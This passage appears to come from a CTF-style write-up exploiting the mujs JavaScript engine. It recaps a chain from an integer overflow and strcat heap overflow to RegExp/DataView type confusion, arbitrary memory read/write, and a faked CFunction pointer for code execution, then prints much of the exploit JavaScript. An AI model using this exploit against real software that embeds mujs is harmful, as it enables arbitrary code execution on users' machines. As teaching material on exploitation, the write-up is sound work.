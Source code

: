Now we have all three requirements!

## Recap & Final Exploit

The path from an integer overflow to arbitrary code execution was certainly not a straightforward one. Let's go over how we got here.

- Using the integer overflow, we caused the chunk size to shrink, allowing us to use `strcat` to append content to the end of the chunk, giving us a heap overflow.
- Using the heap overflow, we overwrote the the type variable of a RegExp, converting it into a DataView. Because a pointer occupied the space where the length of the DataView array would usually be, we got an out of bounds write on the regular expression string.
- Using the out of bounds write, we controlled the pointer of a regular DataView, allowing us to read and write anywhere in memory.
- Also using the out of bounds write, we overwrite the type of an object, converting it into a CFunction. We also wrote the address of the function we want to execute to the function pointer in the CFunction union.

Ok, enough talking. Let's see the exploit!

```js
// as a note, mujs supports only legacy javascript, so somethings aren't as efficient as i'd like them to be.
function read32(address) {
  	// 0x128 is the offset to the worker's data ptr. overwrite the data ptr with the address.
    victim.su32(0x128, address % 0x100000000);
    victim.su32(0x128 + 4, address / 0x100000000);
    return worker.getUint32(0);
}

function write32(address, value) {
    victim.su32(0x128, address % 0x100000000);
    victim.su32(0x128 + 4, address / 0x100000000);
    worker.setUint32(0, value);
}

function execute(address) {
  	// 0x1a8 is the offset to the bad_fn's function pointer. overwrite it with the address to exec
    victim.su32(0x1a8, address % 0x100000000);
    victim.su32(0x1a8 + 4, address / 0x100000000);
  	// call the function pointer
    bad_fn();
}

// this code makes a 0x10000 long string of just Xs.
var overflow = "X";
for (var i = 0; i < 16; ++i) {
    overflow = overflow + overflow;
}

// our heap overflow content to overwrite the type of victim
overflow_content = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\x11"
var dv_overwrite = [overflow.slice(overflow_content.length - 50), overflow_content];

var bad_fn = {};
var worker = DataView(8);

// make the regular expression string long enough so that it gets allocated under the result of dv_overwrite.join
var victim = RegExp('/RRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRR/ig');

// overwrite victim type
dv_overwrite.join('');
```